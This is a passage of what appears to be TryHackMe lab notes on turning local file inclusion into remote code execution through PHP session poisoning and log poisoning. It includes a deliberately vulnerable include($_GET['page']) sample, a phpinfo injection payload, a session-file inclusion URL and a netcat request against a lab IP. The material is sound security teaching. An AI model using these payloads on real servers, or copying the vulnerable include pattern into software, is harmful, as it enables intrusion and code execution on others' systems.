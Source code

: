 Sample Code

```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

An attacker could exploit this vulnerability by injecting a PHP code into their session variable by using `<?php echo phpinfo(); ?>` in the page parameter.

\


<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/110472d2d2ae7b090b8242b3b1a3818e.png" alt=""><figcaption></figcaption></figure>

This code is then saved in the session file on the server. Subsequently, the attacker can use the LFI vulnerability to include this session file. Since session IDs are hashed, the ID can be found in the cookies section of your browser.

\


<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/82474b4664ba1fd739c339861320174b.png" alt=""><figcaption></figcaption></figure>

Accessing the URL `sessions.php?page=/var/lib/php/sessions/sess_[sessionID]` will execute the injected PHP code in the session file. Note that you have to replace \[sessionID] with the value from your PHPSESSID cookie.

![Injected php code in the session file has been executed](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/d335c5261b4cfa981521ffeb098a796c.png)



## LFI2RCE - Log Poisoning

### **Log Poisoning**

Log poisoning is a technique where an attacker injects executable code into a web server's log file and then uses an LFI vulnerability to include and execute this log file. This method is particularly stealthy because log files are shared and are a seemingly harmless part of web server operations. In a log poisoning attack, the attacker must first inject malicious PHP code into a log file. This can be done in various ways, such as crafting an evil user agent, sending a payload via URL using Netcat, or a referrer header that the server logs. Once the PHP code is in the log file, the attacker can exploit an LFI vulnerability to include it as a standard PHP file. This causes the server to execute the malicious code contained in the log file, leading to RCE.

For example, if an attacker sends a Netcat request to the vulnerable machine containing a PHP code:

Sample Request

```php
$ nc 10.10.198.29 80      
<?php echo phpinfo(); ?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
```